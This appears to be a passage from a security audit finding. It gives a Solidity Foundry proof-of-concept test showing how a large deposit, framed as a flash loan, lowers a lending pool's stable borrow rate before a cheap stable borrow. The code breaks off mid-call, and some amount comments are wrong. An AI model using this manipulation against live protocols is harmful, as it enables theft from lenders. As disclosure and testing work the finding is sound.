 ```solidity
    }

    function _checkMessageSeccuss() internal {
        // vm.exepctEmit(true,false,false);
        // emit BridgeRouter.MessageSuccess(0,"");
    }
}


```

then please add the file that includes the poc to `test/pocs/manipulateStableRatePoC.sol`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import "./base_test.sol";
import "@forge-std/console.sol";

contract Pocs is baseTest {
    function _getStableRateUsdc() internal returns (uint256) {
        HubPoolState.StableBorrowData memory stableData = hubPoolUsdc.getStableBorrowData();
        return stableData.interestRate;
    }

    function test_ManipulateStableBorrowRateThrough() public {
        // initialize caps
        vm.startPrank(LISTING_ROLE);
        loanManager.updateLoanPoolCaps(1, hubPoolUsdc.getPoolId(), 100000e6, 10000e6);
        hubPoolUsdc.updateCapsData(HubPoolState.CapsData(type(uint64).max, type(uint64).max, 1e18));
        loanManager.updateLoanPoolCaps(2, hubPoolUsdc.getPoolId(), 100000e6, 10000e6);
        vm.stopPrank();
        // initialize pool with variable borrows
        uint256 bobDeposit = 20000e6; // 20 USDC
        _approveUsdc(bob, address(spokeUsdc), bobDeposit);
        _deposit(bob, bobAccountId, bobLoanIds[0], bobDeposit, spokeUsdc);

        _borrowVariable(bob, bobAccountId, bobLoanIds[0], hubPoolUsdc.getPoolId(), 10000e6);
        vm.warp(block.timestamp + 2 weeks);
        console.log("POOL + Borrows initialized + time has passed");
        //
        console.log("Initial borrowstableRate of pool :", _getStableRateUsdc());

        // @audit deposit large amount, for example using flash loan
        uint256 largeUsdcDeposit = 100000e6; // 1 million USDC
        _approveUsdc(alice, address(spokeUsdc), largeUsdcDeposit);
        _deposit(alice, aliceAccountId, aliceLoanIds[0], largeUsdcDeposit, spokeUsdc);
        console.log("Start Attack by performing large USDC deposit through flashLoan");

        console.log("borrowstableRate after deposit   :", _getStableRateUsdc());

        console.log("start the stable borrow");
        // Deposit avax as coll for alice
        _depositAvax(alice, aliceAccountId, aliceLoanIds[0], 2000e18);

        // Perform a stable borrow of 1000 USDC
        uint256 stableBorrowAmount = 1000e6; // 1000 USDC
        uint256 maxStableRate = 1e18; // Adjust as needed

        _borrowStable(
            alice,
            aliceAccountId,
```